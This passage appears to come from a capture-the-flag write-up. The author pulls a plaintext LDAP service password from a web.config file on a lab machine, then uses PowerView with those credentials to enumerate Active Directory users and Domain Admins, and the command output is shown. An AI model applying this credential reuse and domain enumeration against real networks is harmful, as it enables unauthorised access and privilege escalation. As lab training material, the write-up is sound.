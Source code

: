 ```xml
<connectionStrings>
        <add connectionString="LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local" name="ADServices" />
    </connectionStrings>
    <system.web>
        <membership defaultProvider="ADProvider">
            <providers>
                <add name="ADProvider" type="System.Web.Security.ActiveDirectoryMembershipProvider, System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" connectionStringName="ADConnString" connectionUsername="FULCRUM\LDAP" connectionPassword="PasswordForSearching123!" attributeMapUsername="SAMAccountName" />
            </providers>
        </membership>
    </system.web>
```

There's a password here for LDAP here. There was also mention of `dc.fulcrum.local`. The current machine I was on was called `webserver` (based on `hostname` output).

Anyways, I relied on `PowerView.ps1` to enumerate the domain. When I first tested it, all commands failed with this error:

```
C:\users\webuser> Get-NetUser -SPN
Exception calling "FindAll" with "0" argument(s): "Unknown error (0x80005000)"
At C:\users\webuser\power.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : COMException
```

Perhaps I needed to use the credentials from earlier to query LDAP:

```powershell
$pass = ConvertTo-SecureString 'PasswordForSearching123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('FULCRUM\ldap', $pass)
```

This solved the error earlier, and I could view the users present:

```
C:\users\webuser> Get-DomainUser -Properties name, MemberOf -Credential $cred | fl


name     : Administrator
memberof : {CN=Group Policy Creator Owners,CN=Users,DC=fulcrum,DC=local, CN=Domain Admins,CN=Users,DC=fulcrum,DC=local, CN=Enterprise Admins,CN=Users,DC=fulcrum,DC=local, CN=Schema Admins,CN=Users,DC=fulcrum,DC=local...}

name     : Guest
memberof : CN=Guests,CN=Builtin,DC=fulcrum,DC=local

name     : krbtgt
memberof : CN=Denied RODC Password Replication Group,CN=Users,DC=fulcrum,DC=local

name : ldap

name     : 923a
memberof : CN=Domain Admins,CN=Users,DC=fulcrum,DC=local

name : BTables
```
